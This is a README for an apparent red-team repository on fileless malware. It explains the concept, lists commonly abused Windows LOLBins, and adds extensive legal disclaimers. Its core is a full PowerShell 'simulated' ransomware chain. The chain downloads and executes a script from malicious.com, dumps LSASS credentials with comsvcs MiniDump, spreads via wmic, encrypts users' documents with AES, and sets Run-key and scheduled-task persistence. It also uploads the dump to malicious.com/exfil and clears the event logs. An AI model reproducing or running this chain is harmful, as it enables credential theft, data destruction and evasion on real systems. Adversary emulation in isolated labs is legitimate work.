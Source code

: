 "100% file-less malware" is a real and dangerous thing — but it's important to understand what that actually means.

What is File-less Malware?

File-less malware doesn't write any files to disk. Instead, it operates entirely in memory (RAM) and often leverages legitimate system tools (like PowerShell, WMI, or macros in Office docs) to execute its malicious activities. Since it leaves little to no footprint on the hard drive, it's much harder to detect using traditional antivirus software.

Can It Be Truly 100% File-less?

In theory, yes — it can be completely file-less:

Delivered via phishing emails using malicious macros or scripts

Injects itself into legitimate processes (e.g., explorer.exe)

Executes code directly in memory

Uses system-native tools without dropping custom binaries


But in practice, many so-called "file-less" attacks do use some files temporarily or drop components during later stages. So, while some attacks can be 100% file-less, most are “mostly” file-less, relying on a hybrid approach.

Why It Matters

Traditional antivirus often scans files — not memory or system behavior.

File-less malware is stealthier and harder to analyze.

Detection usually requires behavior-based tools like EDR (Endpoint Detection & Response).


# ⚠️ Advisory & Legal Notice: Educational and Authorized Research Use Only

This repository presents **advanced cybersecurity simulation tools and techniques**, primarily intended for:

- Fileless malware behavior emulation  
- Living-off-the-Land Binaries (LOLBins) abuse scenarios  
- Offensive security automation (e.g., PrintNightmare, SpoolFool)  
- Adversary emulation within red/purple team operations  
- Drive-by payload structures and phishing simulation  
- CI/CD exploitation via GitHub Actions in lab environments  

> **This repository is strictly for research, education, and authorized simulation use.**  
> All materials are to be used exclusively within the following environments:
> 
> - Cybersecurity research labs  
> - Adversary emulation platforms and red/purple team frameworks  
> - SOC detection validation via cyber ranges  
> - Blue Team response exercises  
> - Controlled malware analysis environments  

---

## 🧪 For Lab-Based Simulation Only

This repository is intended to **simulate real-world adversarial behavior** under **isolated, controlled, and authorized conditions only**.  
Deployment on production systems, third-party networks, or any environment without **explicit, written authorization** is strictly prohibited.

---

## ❌ Unauthorized Usage Prohibited

- This content must **never** be used for malicious, unlawful, or unethical purposes.  
- **Misuse may violate international, federal, or local cybersecurity laws.**  
- Authors and contributors assume **no liability** for any damage or legal consequences resulting from misuse or improper replication of this content.

---

## ✅ Usage Agreement

By accessing, cloning, or executing this repository, you agree to the following:

- You will use this content **only in compliance** with applicable laws, regulations, and institutional security policies.  
- You accept **full responsibility** for the outcomes and legal implications of your usage.  
- You are authorized to conduct security testing in your target environment or have written permission to do so.

---

**⚖️ Unsure whether your use is authorized? Do not proceed.  
Consult your organization's legal, compliance, or security leadership before using this repository.**

---

## 🧠 NSFW – Advanced Fileless Malware Emulation

![Fileless Malware Concept](https://github.com/user-attachments/assets/3108f067-a49b-45c1-b1c4-07691881c76b)

---

## 🧩 LOLBins 101: Living-Off-the-Land Binaries & Scripts

**LOLBins** are legitimate system tools native to Windows environments that can be weaponized by adversaries to execute arbitrary code, establish persistence, and evade detection.

### ⚙️ Commonly Abused LOLBins

| Binary               | Primary Abuse Vector             | Related MITRE Tactics                  |
|----------------------|----------------------------------|----------------------------------------|
| `rundll32.exe`       | Reflective DLL execution         | Execution, Defense Evasion             |
| `mshta.exe`          | HTA script execution             | Obfuscation, Sandbox Evasion           |
| `regsvr32.exe`       | COM object loading               | Fileless Execution, C2 Communication   |
| `wmic.exe`           | Remote command execution         | Lateral Movement, Discovery            |
| `cmd.exe / powershell.exe` | Script execution          | Payload Staging, Persistence           |
| `msbuild.exe`        | Runtime C# compilation           | Fileless Malware Deployment            |
| `certutil.exe`       | File download/decode             | Staging, Exfiltration                  |
| `bitsadmin.exe`      | Background file transfers         | Task Persistence, Delivery             |
| `schtasks.exe`       | Scheduled task creation          | Privilege Escalation, Persistence      |
| `esentutl.exe`       | Arbitrary binary copying         | Covert Execution, Exfiltration         |

---

## 🧬 Simulation: 100% Fileless Ransomware Chain  
*Mapped using the [MITRE ATT&CK Framework](https://attack.mitre.org/)*

> ⚠️ **Legal Disclaimer**: The following simulation script is a **synthetic red team emulation sample** and **must not be executed outside of a properly sandboxed or isolated testing environment**.

<details>
<summary>Click to view simulated PowerShell ransomware TTP chain</summary>

```powershell
# 🎯 Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 Privilege Escalation (T1548)
Start-Process "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File elevate.ps1" -Verb RunAs

# 🧪 Credential Access (T1003.001)
Invoke-Expression "rundll32.exe comsvcs.dll, MiniDump (Get-Process lsass).Id dump.dmp full"

# 🔍 Discovery (T1082)
Get-WmiObject Win32_ComputerSystem | Select Name, Domain, UserName
Get-NetAdapter | Select Name, MacAddress

# 🌐 Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell -File payload.ps1"

# 💣 Impact: File Encryption (T1486)
$files = Get-ChildItem "C:\Users\*\Documents" -Include *.txt,*.docx -Recurse
foreach ($f in $files) {
    $data = Get-Content $f.FullName -Raw
    $key = (1..32 | ForEach { [char](Get-Random -Min 65 -Max 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [Text.Encoding]::UTF8.GetBytes($key.PadRight(32,'X'))
    $aes.IV = New-Object byte[] 16
    $enc = $aes.CreateEncryptor()
    $bytes = [Text.Encoding]::UTF8.GetBytes($data)
    $encData = [Convert]::ToBase64String($enc.TransformFinalBlock($bytes,0,$bytes.Length))
    Set-Content -Path $f.FullName -Value $encData
}

# 📌 Persistence (T1547.001)
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -File persist.ps1"
schtasks /create /tn "UpdaterTask" /tr "powershell -File persist.ps1" /sc onlogon /rl highest

# 📤 Exfiltration (T1041)
$exfil = [Convert]::ToBase64String([IO.File]::ReadAllBytes("dump.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfil

# 🧹 Defense Evasion (T1070)
Remove-Item C:\Windows\Temp\* -Recurse -Force
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
```

</details>

---

## 🔗 Recommended Resources & Tools

- [PrintNightmare – Exploit Analysis](https://itm4n.github.io/printnightmare-not-over/)  
- [Printer Spooler Vulnerability Summary](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)  
- [LOLOL Farm – LOLBin Sandbox](https://lolol.farm/)  
- [MITRE ATT&CK - T1218 Reference](https://attack.mitre.org/techniques/T1218/)  
- [LOLGEN – Chain Generator](https://lolgen.hdks.org/)  
- [Wikipedia – Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)  
- [DLL Injection Techniques](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)  
- [Printer Exploitation Toolkit](https://github.com/jacob-baines/concealed_position)

---

### 🛡️ Closing Statement

This repository is a **research artifact** intended solely for use by cybersecurity professionals, red team operators, and academic researchers.  
Use is governed by your local and international laws, organizational policies, and ethical standards. Unauthorized use or replication of these techniques in real-world systems is **strictly prohibited**.


